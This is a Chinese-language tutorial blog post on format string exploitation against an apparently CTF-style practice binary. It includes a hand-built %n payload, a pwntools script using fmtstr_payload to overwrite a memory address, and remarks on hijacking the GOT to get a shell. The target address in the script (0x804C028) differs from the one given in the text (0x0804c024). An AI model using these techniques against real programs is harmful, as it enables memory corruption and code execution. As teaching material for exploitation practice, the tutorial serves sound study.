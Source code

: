 所以说，我们可以利用 %hhn 向某个地址写入单字节，利用 %hn 向某个地址写入双字节。

首先，我们还是要确定的是要覆盖的地址为多少，利用 ida 看一下，可以发现地址为 0x0804c024。

即我们希望将按照如下方式进行覆盖，前面为覆盖地址，后面为覆盖内容。

```
0x0804c024 \x78
0x0804c025 \x56
0x0804c026 \x34
0x0804c027 \x12
```

首先，由于我们的字符串的偏移为 6，所以我们可以确定我们的 payload 基本是这个样子的：

```
p32(0x0804c024)+p32(0x0804c025)+p32(0x0804c026)+p32(0x0804c027)+pad1+'%6$n'+pad2+'%7$n'+pad3+'%8$n'+pad4+'%9$n'
```

![image-20231109170027894](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231109170027894.png)

接下来，我们需要将已经写入的字符个数和需要修改的内容做差，即可求出padding的具体大小。这里为了方便，可以使用pwntools自带的`fmtstr_payload`函数构造payload：

```pythont
fmtstr_payload(6,{0x0804c024:0x12345678})
```

```python
from pwn import *
context(arch='i386',os='linux')
context.log_level='debug'
context.terminal=['tmux','splitw','-h']

elf = ELF('./overwrite')
libc = elf.libc
r = elf.process()

leak = 0x804C028

payload = fmtstr_payload(6,{leak:0x12345678})

r.sendline(payload)

r.interactive()
```

结果如下：

![image-20231109170514955](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231109170514955.png)

以上是格式化字符串使用的基本思路。平常的使用经常会和劫持GOT表或者返回地址结合来达到getshell的效果。

## 补充

由于64位地址正常不会满8字节，因此请将地址放在fmt后面，这样可以防止地址高位补0而导致的零截断。

```
%6$sxxxx\xc0\x40\x40\x00\x00\x00\x00\x00
# fault: \xc0\x40\x40\x00\x00\x00\x00\x00%6$sxxxx 
```



---

> 作者: alextang  
> URL: https://alextang.top/articles/2023/11/fmt_str/  

